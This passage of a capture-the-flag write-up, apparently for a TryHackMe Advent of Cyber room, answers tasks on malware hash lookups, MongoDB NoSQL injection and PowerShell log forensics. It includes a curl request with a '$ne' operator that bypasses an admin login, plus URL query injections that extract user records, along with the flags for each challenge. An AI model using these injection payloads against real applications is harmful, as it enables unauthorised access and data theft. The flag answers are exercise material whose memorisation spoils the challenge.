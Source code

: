 ```
0827bb9a2e7c0628b82256759f0f888ca1abd6a2d903acdb8e44aca6a1a03467
```
9. Visit the Virus Total website and use the hash value to search. Navigate to the behaviour section. What is the second tactic marked in the Mitre ATT&CK section?
```
Defense Evasion
```
10. Visit the InQuest website and use the hash value to search. What is the subcategory of the file?
```
macro_hunter
```


## Task 12

1. Interact with the MongoDB server to find the flag. What is the flag? 
```
THM{8814a5e6662a9763f7df23ee59d944f9}
```
2. We discussed how to bypass login pages as an admin. Can you log into the application that Grinch Enterprise controls as admin and retrieve the flag?
Use the knowledge given in AoC3 day 4 to setup and run Burp Suite proxy to intercept the HTTP request for the login page. Then modify the POST parameter.
```zsh
curlie -X POST http://10-10-248-127.p.thmlabs.com/login -d '{"username":"admin","password":{"$ne":"password"}}'

```
```
THM{b6b304f5d5834a4d089b570840b467a8}
```
3. Once you are logged in, use the gift search page to list all usernames that have guest roles. What is the flag?
```zsh
https://10-10-248-127.p.thmlabs.com/search?username[$ne]=ben&role=guest
```
```
THM{2ec099f2d602cc4968c5267970be1326}
```
4. Use the gift search page to perform NoSQL injection and retrieve the mcskidy record. What is the details record?
```zsh
https://10-10-248-127.p.thmlabs.com/search?username=mcskidy&role[$ne]=guest
```
```
ID:6184f516ef6da50433f100f4:mcskidy:admin
```

## Task 13

1. Open the first transcription log. You can see the commands and output for everything that ran within PowerShell, like whoami and systeminfo!
```
Microsoft Windows 11
```
2. What was the password set for the new "backdoor" account?
```
grinchstolechristmas
```
3. In one of the transcription logs,  the bad actor interacts with the target under the new backdoor user account, and copies a unique file to the Desktop. Before it is copied to the Desktop, what is the full path of the original file? 
```
C:\Users\santa\AppData\Local\Microsoft\Windows\UsrClass.dat
```
4. The actor uses a Living Off The Land binary (LOLbin) to encode this file, and then verifies it succeeded by viewing the output file. What is the name of this LOLbin?